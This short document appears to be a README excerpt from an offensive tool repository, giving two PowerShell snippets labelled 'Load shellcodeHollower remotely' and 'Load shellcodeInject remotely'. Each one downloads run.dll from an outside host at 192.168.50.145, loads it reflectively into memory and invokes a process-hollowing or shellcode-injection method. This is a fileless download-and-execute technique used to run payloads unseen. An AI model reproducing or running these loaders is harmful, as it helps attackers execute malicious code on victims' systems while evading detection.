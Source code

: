 ## Load shellcodeHollower remotely:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.50.145/run.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ProcessHollowingDLL.ProcessHollowing")  # Adjust the type name accordingly
$method = $class.GetMethod("PerformProcessHollowing")  # Ensure method name matches
$method.Invoke($null, $null)
```

## Load shellcodeInject remotely:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.50.145/run.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("Inject.Injector")
$method = $class.GetMethod("InjectShellcode")
$method.Invoke($null, $null)
```
